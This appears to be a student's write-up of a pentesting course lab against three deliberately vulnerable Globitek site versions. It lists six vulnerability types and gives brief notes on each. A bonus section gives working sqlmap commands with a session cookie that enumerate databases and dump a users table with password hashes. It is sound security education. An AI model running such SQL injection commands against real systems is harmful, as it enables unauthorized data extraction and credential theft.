







# Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection



Vulnerability #2: Session Hijacking/Fixation



## Green

Vulnerability #1: Username Enumeration



Vulnerability #2: XSS



## Red

Vulnerability #1: IDOR




Vulnerability #2: CSRF



## Notes

User name Enumeration:
It took me a long while to find the failed/failure change of class in the DOM.  I was looking for a message of sorts instead of such a subtle change.  I also wasn't sure which form I was supposed to look at.

IDOR:
That one was a bit more straight forward once I got into the swing of things, I was pretty sure that it had to do with user ids.

SQLI:
I tried all the forms to no avail, although sometimes I would get a blank page with a bad request notification giving me a false positive on the blue and green site.  I figured it was a bug since I couldn't reliably reproduce the error.



XSS:
That one was straight forward, it felt intuitive that the best place to inject was in the contact form.  Although I did encounter the error from above again.  It seems that when quickly and consecutively doing the same action on the 3 different sites, the third request will fail.

CSRF:
2 vulnerability left and 2 sites simplifies the task quite a bit.


Session Hijacking/Fixation:
Last vulnerability and only one site left.  Really straight forward instructions and easy to implement.


## Bonus Objective 1:

Using sqlmap with the following query I got a list of all the databases:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --dbs --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5
```
available databases [7]:
[*] globitek_blue
[*] globitek_green
[*] globitek_red
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

I then used the following to get a listing of all the tables in globitek_blue:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue --tables
```
Database: globitek_blue
[8 tables]
+-------------------------+
| countries               |
| failed_logins           |
| feedback                |
| salespeople             |
| salespeople_territories |
| states                  |
| territories             |
| users                   |
+-------------------------+

I wanted to get a list of all columns in the user table with:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue -T users --columns
```

Database: globitek_blue
Table: users
[7 columns]
+-----------------+--------------+
| Column          | Type         |
+-----------------+--------------+
| created_at      | datetime     |
| email           | varchar(255) |
| first_name      | varchar(255) |
| hashed_password | varchar(255) |
| id              | int(11)      |
| last_name       | varchar(255) |
| username        | varchar(255) |
+-----------------+--------------+

Finally going to dump user information with:

```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue -T users --dump
```

Database: globitek_blue
Table: users
[3 entries]
+----+---------------------+-----------+-----------+---------------------+------------+--------------------------------------------------------------+
| id | email               | username  | last_name | created_at          | first_name | hashed_password                                              |
+----+---------------------+-----------+-----------+---------------------+------------+--------------------------------------------------------------+
| 1  | test@test.com       | jmonroe99 | Munroe    | NULL                | Jim        | $2y$11$Co5fHvH5Lgk2Zu0iHR46BO6fnqQt1pUljPbZOhk7bTU6hQFhjBJG. |
| 2  | lbt2000@nowhere.com | lbtables  | Tables    | 2016-06-03 19:33:54 | Bobby      | $2y$10$I.Jwfc8R3xaFwlAlPn5U3OLAQXrE0c2fakN8rR4j2TW0gRVMd6U6a |
| 3  | person@nowhere.com  | pperson   | Person    | 2017-01-01 02:50:26 | Pat        | $2y$11$FHZQn1eWZ3mbn11evb3CSeM20LCsJZI8yP9wS/UsOI6VWnx.7mKDa |
+----+---------------------+-----------+-----------+---------------------+------------+--------------------------------------------------------------+

